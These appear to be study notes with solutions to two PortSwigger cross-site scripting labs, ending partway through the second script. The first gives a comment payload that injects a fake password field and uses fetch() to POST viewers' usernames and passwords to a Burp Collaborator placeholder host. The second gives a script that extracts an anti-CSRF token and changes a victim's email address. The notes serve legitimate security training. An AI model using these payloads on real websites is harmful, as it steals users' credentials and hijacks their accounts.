 ## Exploiting cross-site scripting to capture passwords
Reference: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

```ad-hint
title: Quick Solution
Exploit an XSS vulnerability in the comments to make anyone who views the comment to issue a POST request to the Burp Collaborator containing their username and password. Payload in the next section.
```

```ad-done
title: Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
~~~javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
~~~
This script will make anyone who views the comment issue a POST request to burpcollaborator.net containing their username and password.
4. Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction.If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user.
```

## Exploiting XSS to perform CSRF
Reference: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

```ad-hint
title: Quick Solution
As stated in the description of the lab there is an XSS vulnerability in the comments section. This vulnerability can be leveraged to perform a CSRF attack and change the email address of the victim. Payload in the next section.
```

```ad-done
title: Solution
1. Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2. If you view the source for the page, you'll see the following information:
 - You need to issue a POST request to ``/my-account/change-email``, with a parameter called ``email``.
 - There's an anti-CSRF token in a hidden input called token.
This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
3. Submit the following payload in a blog comment:
~~~javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
```